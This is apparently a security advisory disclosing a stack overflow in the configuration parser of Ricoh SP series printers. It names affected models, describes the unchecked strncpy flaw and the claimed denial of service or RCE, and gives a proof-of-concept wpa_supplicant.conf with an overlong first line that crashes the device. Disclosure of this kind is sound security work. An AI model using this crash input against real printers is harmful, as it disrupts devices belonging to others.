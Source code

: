 # Ricoh Printer SP Series Vulnerability

This vulnerability lies in the `wpa_supplicant_conf_parser` function which influences the **most lastest version** of **Ricoh Printer SP Series**. Infected products are listed below:

- SP 320DN
- SP 325DNw
- SP 320SN
- SP 320SFN
- SP 325SNw
- SP 325SFNw
- SP 330SN
- Aficio SP 3500SF
- SP 221S
- SP 220SNw
- SP 221SNw
- SP 221SF
- SP 220SFNw
- SP 221SFNw

## Vulnerability description

In function `wpa_supplicant_conf_parser`, the program opens the file named `/etc/wpa_supplicant.conf` and reads in the content of the file using the function `os_file_get`. The content of the configuration file is stored on a heap variable named `filecontent` on line 48 and line 58 in the picture below. Then it reads in each line of the file content onto the stack using `strncpy` on line 79. However, the code does not check each line's length, which could lead to stack overflow vulnerabilities.

So by controling the content of the configuration file, the attacker can easily perform a **Deny of Service(DoS) Attack** or **Remote Code Execution(RCE)** with carefully crafted overflow data.

![1.png](1.png)

## POC

Any valid configuration file whose first line's length is greater than `0x38` can cause a DoS on this device. Example Configuration file `/etc/wpa_supplicant.conf` is listed below.

```python
# allow frontend (e.g., wpa_cli) to be used by all users in 'wheel' group # This is a looooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooong line
ctrl_interface=DIR=/var/run/wpa_supplicant GROUP=wheel
#
# home network; allow all valid ciphers
network={
	ssid="home"
	scan_ssid=1
	key_mgmt=WPA-PSK
	psk="very secret passphrase"
}
#
# work network; use EAP-TLS with WPA; allow only CCMP and TKIP ciphers
network={
	ssid="work"
	scan_ssid=1
	key_mgmt=WPA-EAP
	pairwise=CCMP TKIP
	group=CCMP TKIP
	eap=TLS
	identity="user@example.com"
	ca_cert="/etc/cert/ca.pem"
	client_cert="/etc/cert/user.pem"
	private_key="/etc/cert/user.prv"
	private_key_passwd="password"
}
```

## Timeline

- 2021-06-04 report to CVE & CNVD
- 2021-06-17 CNVD ID assigned: CNVD-2021-42364
